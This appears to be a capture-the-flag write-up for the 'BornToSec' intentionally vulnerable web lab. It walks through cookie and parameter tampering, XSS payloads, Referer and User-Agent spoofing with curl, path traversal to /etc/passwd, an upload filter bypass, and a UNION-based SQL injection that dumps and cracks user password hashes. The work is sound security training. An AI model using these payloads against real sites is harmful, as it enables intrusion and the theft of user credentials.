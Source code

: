 Cookie md5 admin true

Flag: df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

---

http://10.13.199.248/?page=survey change vote value to 99999

Flag: 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa

---

http://10.13.199.248/index.php?page=recover inspect element change reset email to own

Flag: 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

---

Xss on feedback page

`/><script>alert(1);</script>`

Flag: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e

---

robots.txt
The file robots.txt is often used on webpages to tell web crawlers how they should access or disallow them from parts of the website,
for example to hide irrelevant results from Google search or prevent the server from overloading from crawlers loading content.

http://{ip}/robots.txt shows there are /whatever and /.hidden directories on the website

dirbuster {ip}/whatever/ directory
http://10.12.179.218/whatever/ has "htpasswd" file 
htpasswd file contents: "root:8621ffdbc5698829397d97767ac13db3"
username root, password is md5 encrypted and decrypts to "dragon"
password doesn't work on the login but trying out subdirectories we find {ip}/admin
login on {ip}/admin

Flag: d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

---

robots.txt 2
/whatever subdirectory

---

request header spoofing
click "© BornToSec" at the bottom of the page, it opens a page with an albatross with a hash in the url, it decrypts to "TAMERE".
inspect element to see comments with hints
"You must cumming from : "https://www.nsa.gov/" to go to the next step"
"Let's use this browser : "ft_bornToSec". It will help you a lot."
curl --referer https://www.nsa.gov/ http://10.12.179.218/\?page\=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c --user-agent "ft_bornToSec" -s | grep flag

Flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

Directory traversal

Following many of the links there is a pattern of a url with a parameter "?page=" for example: http://{ip}/?page=survey
Trying to add http://{ip}/?page=../ we see interesting alert messages with each added ../ which seems like a sign there is a directory we can access using this.
One of the messages is "You can DO it !!!  :]" and after trying out the common files an attacker would try to access we finally get 
http://{ip}/?page=../../../../../../../etc/passwd which gives the flag.

Flag: b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

---
Unrestricted file upload of a malicious type
The "Add Image" page does not let you upload files unless they have a .jpg extension.
Looking at the request there is the filename and Content-Type. When a .jpg file is uploaded, it has the Content-Type of image/jpeg. 
However when sending a request with another file extension in the filename but still with Content-Type: image/jpeg we are allowed to upload whatever files we want, 
for example javascript that might then be executed on another user's browser when they view it. Doing this gives us the flag.

Flag: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
---

Image link XSS
There is an image link on the main page: http://{ip}/?page=media&src=nsa
Changing the src parameter we get a wrong answer page but what's interesting is that with for example &src=test123 the html will contain an object tag with our data: 

![](./object_tag/Ressources/object_tag.png)

By encoding javascript into the url using base64 we can get the flag:

`<script>alert(1);</script>` 

base64-> `PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=`

http://{ip}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

---

Members SQL injection

Trying out different inputs we can find out information about the SQL server used, in this case by just inputting an apostrophe ' we find out the site is usingg MySQL which can aid us in constructing queries.

Trying `1 OR 1=1` works and displays all users. The query might look something like this on the server:

`SELECT name FROM members WHERE id = 1 OR 1=1`

Since 1=1 is always true, it returns all the data in the table.
Trying different inputs we can get information from the error messages.

`1 union select 1,2,3 from user -- -`
>Table 'Member_Sql_Injection.user' doesn't exist

The table is called Member_Sql_Injection

Trying 
`1 or 1=1 ORDER BY 1--`, 

`1 or 1=1 ORDER BY 2--` and 

`1 or 1=1 ORDER BY 3--` 
>Unknown column '3' in 'order clause'

There are only 2 columns, first name and last name. 

`1 or 1=1 UNION SELECT version(),user()--`
>First name: 5.5.44-0ubuntu0.12.04.1
Surname : borntosec@localhost

We can use this: `1 or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables` to get information about what kind of data we can now steal from the tables. Let's try the "users" table, using the string doesn't seem to work but encoding users to hex works -> 0x7573657273

`1 or 1=1 UNION SELECT NULL,group_concat(column_name, 0x0a) FROM information_schema.columns where table_name = 0x7573657273`
>user_id,first_name,last_name,town,country,planet,Commentaire,countersign


1 or 1=1 UNION SELECT NULL,group_concat(town,country,planet,Commentaire,countersign) from users
>First name: 
Surname : Honolulu AmericaEARTHAmerca !2b3366bcfd44f540e630d4dc2b9b06d9,BerlinAllemagneEarthIch spreche kein Deutsch.60e9032c586fb422e2c16dee6286cf10,MoscouRussiaEarth????? ????????????? ?????????e083b24a01c483437bcf4a9eea7c1b4d,424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

`1 or 1=1 UNION SELECT NULL,group_concat(countersign) from users`

>2b3366bcfd44f540e630d4dc2b9b06d9,60e9032c586fb422e2c16dee6286cf10,e083b24a01c483437bcf4a9eea7c1b4d,5ff9d0165b4f92b14994e5c685cdce28

First two and last one are encrypted with MD5
>YesWeCan
oktoberfest
???
FortyTwo

>Decrypt this password -> then lower all the char. Sh256 on it and it's good !

Sha256 on fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---
